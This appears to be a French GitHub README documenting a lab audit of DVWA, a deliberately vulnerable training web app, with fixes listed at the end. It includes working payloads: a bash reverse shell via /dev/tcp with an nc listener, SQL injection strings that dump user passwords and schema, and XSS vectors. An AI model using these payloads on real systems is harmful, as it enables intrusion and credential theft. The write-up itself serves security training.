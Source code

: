 # 🔐 Web Application Vulnerability Audit – DVWA

Ce projet présente un audit de sécurité sur l'application **DVWA (Damn Vulnerable Web Application)**. Il se concentre sur l'exploitation de **trois vulnérabilités critiques** :

- ✅ Command Injection
- ✅ SQL Injection
- ✅ Reflected Cross-Site Scripting (XSS)

Chaque vulnérabilité est exploitée à travers les différents niveaux de sécurité (`Low`, `Medium`, `High`) proposés par DVWA.

---

## ⚙️ 1. Command Injection

### 📖 Description

Une **Command Injection** permet à un attaquant d'injecter des commandes système via des paramètres non sécurisés. Cela peut mener à une exécution arbitraire de code, jusqu'à l'obtention d'un shell distant.

---

### 🔴 Low

```bash
# Terminal d'écoute
nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Page DVWA (champ IP)
127.0.0.1 && bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

# ✅ Résultat : Shell interactif obtenu via reverse shell
```

### 🟡 Medium

```bash
# Terminal d'écoute
nc -lvnp 4444

# Page DVWA (champ IP)
127.0.0.1 | bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"

# ✅ Résultat : Reverse shell via contournement avec pipe
```

### 🟠 High

```bash
# Terminal d'écoute
nc -lvnp 4444

# Page DVWA (champ IP)
127.0.0.1|whoami

# ❌ Résultat : L'injection est filtrée par la blacklist (|, &, $, etc.)

```

---

## 🧠 2. SQL Injection

### 📖 Description

La **SQL Injection** permet à un attaquant d’exécuter des requêtes SQL arbitraires via une entrée utilisateur non filtrée.

---

### 🔴 Low

```bash

# Bypass d'authentification
' OR 1=1 # 
'
# Dump des utilisateurs
' UNION SELECT user, password FROM users #
'
# Lister les bases de données
' UNION SELECT schema_name, null FROM information_schema.schemata #
'
# Lister les tables de la base en cours
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=database() #
'
# Lister les colonnes de la table "users"
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users' #
'
# Obtenir la version de la base
' UNION SELECT database(), @@version #

```

### 🟡 Medium

```bash

# Injection directe via champ numérique (pas de quote utilisée)
1 UNION SELECT user, password FROM users #

# ⚠️ mysqli_real_escape_string est utilisé, mais n'empêche pas l'injection ici
# ✅ Résultat : Dump complet de la table users

```

### 🟠 High

```bash

# Lecture de l'ID via $_SESSION['id'], donc injection indirecte

# Exemple d'injection si session modifiable 
1' UNION SELECT user, password FROM users #
'
# ❌ Résultat : Pas exploitable sans contrôle sur la session PHP
# Bypass possible uniquement avec LFI ou session poisoning

```

---

## ⚡ 3. Reflected Cross-Site Scripting (XSS)

### 📖 Description

Le **Reflected XSS** permet d'injecter du JavaScript dans les réponses HTTP, causant une exécution dans le navigateur victime.

---

### 🔴 Low

```bash

<script>alert("hello")</script>

# ✅ Résultat : alerte exécutée directement

```

### 🟡 Medium

```bash

<img src=x onerror=alert("hello")>

# ✅ Résultat : alerte exécutée via handler JS 


```

### 🟠 High

```bash

<img src="x" onerror=alert("Hello")>
<body onload=alert("hello")>

# ✅ Résultat : alerte exécutée via handler JS -->


```

## ✅ Résumé Webshell
Un shell a été obtenu via Command Injection :

✔️ Créer un fichier : echo test > test.txt

✔️ Supprimer un fichier : rm test.txt

✔️ Exécuter des commandes : id, whoami, etc.

## 🔒 Correctifs recommandés
Vulnérabilité	Correction
Command Injection	escapeshellarg(), supprimer shell_exec(), whitelist IP
SQL Injection	Requêtes préparées (PDO / mysqli), intval(), filtrage strict
XSS	htmlspecialchars(), CSP, suppression du reflet direct

## 📁 Contenu du dépôt
README.md ✅


## ✅ Conclusion
Ce projet démontre l’exploitation de 3 failles critiques sur DVWA avec des attaques pratiques, des contournements de protection, et des correctifs robustes. C’est une démonstration complète de la sécurité offensive et défensive d’une application web.